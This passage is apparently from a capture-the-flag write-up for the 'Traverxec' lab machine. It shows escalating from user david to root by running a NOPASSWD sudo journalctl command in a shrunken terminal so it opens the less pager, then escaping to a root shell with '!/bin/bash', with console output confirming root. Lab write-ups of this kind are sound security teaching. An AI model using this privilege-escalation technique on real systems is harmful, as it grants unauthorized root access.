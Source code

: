 ### david -> root

- enum executable script

```console
david@traverxec:~$ ls -al bin/
total 16
drwx------ 2 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-r-------- 1 david david  802 Oct 25  2019 server-stats.head
-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
```

- script where sudo command can be executed -> `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` **NOPASSWD** -> [journalctl | GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)

```console
david@traverxec:/home/david/bin# cat server-stats.sh
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

`journalctrl` will output to `stdout` if it can fit onto the current terminal, but into less if it can’t. As `-n5` means 5 lines, set terminal height is less than 5 lines and run this command, the journalctrl will output into less, then `!/bin/bash` for priv esca.

```console
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Thu 2024-01-18 17:15:33 EST, end at Thu 2024-01-18 18:21:26 EST. --
Jan 18 17:57:08 traverxec su[13648]: FAILED SU (to david) www-data on pts/0
Jan 18 17:57:28 traverxec su[13650]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts/0 ruser=www-data rhost=  user=david
!/bin/bash
root@traverxec:/home/david/bin# id
uid=0(root) gid=0(root) groups=0(root)
root@traverxec:/home/david/bin# uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
root@traverxec:/home/david/bin# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:43:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
root@traverxec:/home/david/bin#
```
